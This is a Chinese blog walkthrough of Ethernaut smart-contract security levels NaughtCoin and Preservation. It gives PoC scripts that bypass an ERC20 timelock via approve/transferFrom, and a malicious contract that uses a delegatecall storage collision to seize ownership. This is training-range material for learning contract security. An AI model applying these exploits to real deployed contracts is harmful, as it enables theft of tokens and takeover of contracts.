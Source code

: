 ```yaml
---

title: 'ethernaut.openzeppelin合约安全闯关-12'
date: 2022-12-13 14:42:15
tags:
- '区块链技术'
- '智能合约安全'
categories:
- '智能合约安全'

---
```


<!-- more -->

::: tip

目前来看最全面的智能合约安全靶场:+1:

https://ethernaut.openzeppelin.com/ 

浏览器控制台 help()指令

![help](./assets/1670479273112.png)

:::

#### 第十五 / 十六关NaughtCoin / Preservation思路与POC

##### 先看第一个合约代码

##### 目标: bypass转账判断

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import 'openzeppelin-contracts-08/token/ERC20/ERC20.sol';

 contract NaughtCoin is ERC20 {

  // string public constant name = 'NaughtCoin';
  // string public constant symbol = '0x0';
  // uint public constant decimals = 18;
  uint public timeLock = block.timestamp + 10 * 365 days;
  uint256 public INITIAL_SUPPLY;
  address public player;

  constructor(address _player) 
  ERC20('NaughtCoin', '0x0') {
    player = _player;
    INITIAL_SUPPLY = 1000000 * (10**uint256(decimals()));
    _mint(player, INITIAL_SUPPLY);
    emit Transfer(address(0), player, INITIAL_SUPPLY);
  }
  
  function transfer(address _to, uint256 _value) override public lockTokens returns(bool) {
    super.transfer(_to, _value);
  }

  //限制 必须是初始代币拥有者 并且在区块时间过去10年后
  modifier lockTokens() {
    if (msg.sender == player) {
      require(block.timestamp > timeLock);
      _;
    } else {
     _;
    }
  } 
} 
```

##### poc思路:point_right:：这个确实很简单,因为此合约只重写了transfer函数并且限制只存在于transfer函数中,仔细看ERC20标准就知道有transfer函数用于**普通转账**,还有transferFrom用于**授权转账**. 所以其实只需要我们自己授权自己发送代币然后使用transferFrom函数即可.

```solidity
 //ERC20标准 transferFrom标准实现
 function transferFrom(
        address from,
        address to,
        uint256 amount
    ) public virtual override returns (bool) {
        //sender为被授权者
        address spender = _msgSender();
        //校验代币所有者是否有批准 被授权者使用amount数量的代币,有就开始转账
        _spendAllowance(from, spender, amount);
        _transfer(from, to, amount);
        return true;
    }

```

##### poc脚本:

```js
await contract.approve(player,toWei('1000000'))
await contract.transferFrom(player,'0xe58812571718B4aBb70afe96A02A366e009D171e',toWei('1000000'))
```

##### 只是需要注意一点,转移如此多的ERC20代币是非常消耗gas的:black_nib:如果gas上限不够大概会收到这样的错误:

```bash
Error in RPC response:,err: max fee per gas less than block base fee: address 0x0e21d35681E679C33dD49731935FB81F1aee8C05, maxFeePerGas: 28609540 baseFee: 302717279 (supplied gas 15000000)
```



#### 看第二个合约代码:  

##### 目标: 修改owner变量的值

##### 看起来没有任何问题 没有任何修改owner变量的逻辑,但是别忘了 Preservation 这是个代理合约(它使用了delegateCall) :black_flag:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

//代理合约
contract Preservation {
  // public library contracts 
  address public timeZone1Library;
  address public timeZone2Library;
  address public owner; 
  uint storedTime;
  // 设定函数签名
  bytes4 constant setTimeSignature = bytes4(keccak256("setTime(uint256)"));

  constructor(address _timeZone1LibraryAddress, address _timeZone2LibraryAddress) {
    timeZone1Library = _timeZone1LibraryAddress; 
    timeZone2Library = _timeZone2LibraryAddress; 
    owner = msg.sender;
  }
 

  function setFirstTime(uint _timeStamp) public {
  //代理调用timeZone1Library合约的setTime方法
    timeZone1Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
  }

  function setSecondTime(uint _timeStamp) public {
    timeZone2Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
  }
}

// 逻辑合约
contract LibraryContract {
  /*
  其实问题出在了这里,实际的逻辑执行合约是不存储任何数据的(数据的更改发生在代理合约上),
 !!! 这代表着逻辑合约上的变量所占slot实际是与代理合约对应的
  因此逻辑合约的变量设置必须与代理合约一样.
 !!! 所以这里更改的storedTime变量的数据占slot0位置,这代表着实际更改的数据是Preservation合约slot0上的数据
  */
  uint storedTime;  

  function setTime(uint _time) public {
    storedTime = _time;
  }
}
```

##### poc思路:point_right:：能够更改Preservation合约slot 0的数据这意味着什么呢,意味着你可以更改timeZone1Library库的地址为恶意合约的地址,意味着可以使setFirstTime函数实际调用的是恶意合约上的方法。

```js
//设置恶意合约地址到slot0
await contract.setFirstTime('0x95a3b18c0590672CA4C2be9d3548de87486ba170')
//此时调用setFirstTime方法实际是调用恶意合约的setTime方法
await contract.setFirstTime('0x0e21d35681E679C33dD49731935FB81F1aee8C05')
//成功修改
await contract.owner()
'0x0e21d35681E679C33dD49731935FB81F1aee8C05'
```

##### 恶意合约代码:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract PreservationBypass { 
//变量的数量类型所占slot 必须与Preservation合约保持一致
 address public t1;
 address public t2;
 address public owner;
 uint storedTime;
 //函数签名是不变的所以其实只要方法名为setTime()即可
    function setTime(uint256 _owner) public{
         owner =  address(uint160(_owner));         
    }
}
```

